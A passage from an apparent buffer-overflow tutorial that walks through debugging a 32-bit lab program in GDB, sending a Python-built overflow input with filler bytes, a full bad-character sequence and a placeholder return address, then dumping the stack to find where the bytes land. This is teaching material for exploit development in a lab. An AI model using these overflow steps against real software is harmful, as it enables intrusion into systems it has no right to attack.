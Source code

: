 To set the breakpoint, we give the command "`break`" with the corresponding function name.

#### GDB Breakpoint

GDB Breakpoint

```shell-session
(gdb) break bowfunc 

Breakpoint 1 at 0x56555551
```

And now, we can execute the newly created input and look at the memory.

##### Send CHARS

Send CHARS

```shell-session
(gdb) run $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
/bin/bash: warning: command substitution: ignored null byte in input

Breakpoint 1, 0x56555551 in bowfunc ()
```

After we have executed our buffer with the bad characters and reached the breakpoint, we can look at the stack.

#### The Stack

The Stack

```shell-session
(gdb) x/2000xb $esp+500

0xffffd28a:	0xbb	0x69	0x36	0x38	0x36	0x00	0x00	0x00
0xffffd292:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffd29a:	0x00	0x2f	0x68	0x6f	0x6d	0x65	0x2f	0x73
0xffffd2a2:	0x74	0x75	0x64	0x65	0x6e	0x74	0x2f	0x62
0xffffd2aa:	0x6f	0x77	0x2f	0x62	0x6f	0x77	0x33	0x32
0xffffd2b2:	0x00    0x55	0x55	0x55	0x55	0x55	0x55	0x55
				 # |---> "\x55"s begin

0xffffd2ba: 0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd2c2: 0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
<SNIP>
```

Here we recognize at which address our "`\x55`" begins. From here, we can go further down and look for the place where our `CHARS` start.

##### The Stack - CHARS
